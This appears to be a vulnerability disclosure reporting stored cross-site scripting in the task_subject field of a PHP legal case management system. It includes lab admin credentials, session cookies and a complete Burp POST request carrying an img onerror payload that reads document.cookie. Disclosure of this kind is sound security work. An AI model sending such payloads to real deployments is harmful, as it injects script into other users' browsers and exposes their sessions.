

## Legal Case Management System

## XSS on `/admin/tasks`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/tasks
```

The parameter `task_subject` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/tasks HTTP/1.1
Host: 192.168.150.131
Content-Length: 277
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/tasks/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InM3SklDaHp4YVFMZWJYTFwvZUtaOW9BPT0iLCJ2YWx1ZSI6IlBnekVlcmhcL0VoazFSSzlKSDRHUGZWTmVwZnliK3NEQjBrSVFVNFRoSnl2Z2RzU2hPeUZXMDVJUGRBV1IwaTBFIiwibWFjIjoiOTgzYmY3YjBjYTU4MTczZGVkODg4ODQ4YWViZDljNDZjZTBkYTM4MzJjNTI1ZGEwNDBlOGIxMzkwMTAwOThiMSJ9; test_session=eyJpdiI6InBuREhleTZtNGNiZjhUSUp6cUVvaUE9PSIsInZhbHVlIjoiT2dhb3NpUXJPaTFVUzg3VHg0TkZzYnFnZU94b05iYTR5Rmd1Ulp6TTJWMXV2VW0ydWRteHBDSVZmeVI4YnBjYiIsIm1hYyI6IjdmY2VkOTM0MzFiOTcwYTgxYTY4ODNiZjhiNjNmMjFhOTM4YWU0MDMwZmIxZWY5YWZlODNlM2I2ZGZlYzM3N2MifQ%3D%3D
Connection: close

_token=dIDWseikEM1UlakNR9wrVpwU77vwjBNR1ktwDT1O&task_subject=%3Cimg+src%3D1+onerror%3D%22alert%28document.cookie%29%22%3E&start_date=29-04-2024&end_date=29-05-2024&project_status_id=not_started&priority=medium&assigned_to%5B%5D=2&related=case&related_id=&task_description=tasks
```

### Screenshot


